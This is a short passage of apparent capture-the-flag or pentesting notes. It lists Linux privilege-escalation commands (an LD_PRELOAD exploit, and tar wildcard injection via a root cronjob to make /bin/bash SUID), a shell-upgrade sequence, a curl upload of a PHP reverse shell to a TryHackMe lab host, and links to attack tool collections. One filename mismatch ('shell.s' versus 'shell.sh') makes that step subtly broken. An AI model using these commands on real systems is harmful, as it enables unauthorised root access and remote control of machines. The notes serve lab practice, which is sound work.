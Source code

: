 ```console
sudo LD_PRELOAD=./exploit.so /usr/bin/sky_backup_utility
```
Abusing a root cronjob to set the SUID bit to the executable /bin/bash  
```console
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.s
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

# Ewout tips:
To update shell
```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo fg
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
```

Use target tab in Burpsuite for manual web enumeration

#Miscelaneous Scripts
##General:
A bunch of tools and payloads for every stage of pentesting
[bunch of tools](https://github.com/swisskyrepo/PayloadsAllTheThings)

##Linux:
[old scripts](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[popular priv escalation](https://github.com/rebootuser/LinEnum)
[another popular](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
[search kernel exploits](https://github.com/mzet-/linux-exploit-suggester)
[gtfbins](https://gtfobins.github.io)

##Windows:
[enumeration methods](https://www.fuzzysecurity.com/tutorials/16.html)
[old scripts](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)
[general enumeration](https://github.com/411Hall/JAWS)

